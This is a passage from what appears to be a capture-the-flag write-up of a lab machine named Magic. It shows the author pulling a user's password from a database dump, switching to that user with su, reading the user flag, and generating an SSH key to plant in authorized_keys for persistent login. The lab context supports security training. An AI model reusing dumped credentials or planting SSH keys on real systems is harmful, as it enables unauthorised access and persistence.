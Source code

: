 ```ruby

-- Dump completed on 2020-08-21 23:10:57
```

```bash
User:Theseus
Pass:Th3s3usW4sK1ng
```

From the dump, we find credential for Theseus. Using switch user command, we can switch to Theseus.

```css
www-data@ubuntu:/var/www/Magic$ su - theseus
su - theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:~$
```

## User Flag

```ruby
theseus@ubuntu:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
theseus@ubuntu:~$ cat user.txt
d4e98c72007d8e34----------------
```

The current shell is bit unstable. Lets login via SSH.

```bash
strawhack@linux:~/Desktop$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/strawhack/.ssh/id_rsa): theseus
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in theseus
Your public key has been saved in theseus.pub
The key fingerprint is:
SHA256:cS1yfDBgzHmOtvpGvG7Jm6XDwmtnenxrjyAPqhd1RbY strawhack@linux
The key's randomart image is:
+---[RSA 3072]----+
|       oo+=      |
|       .+oo=     |
|        o=E o    |
|      . +=.o     |
|     . +S.       |
|    .   +        |
|     oo*.o.      |
|    ..=+&=o.     |
|  .o..o%B=oo.    |
+----[SHA256]-----+
```

Copy the Public Key in Theseus's authorized_keys, and login using SSH
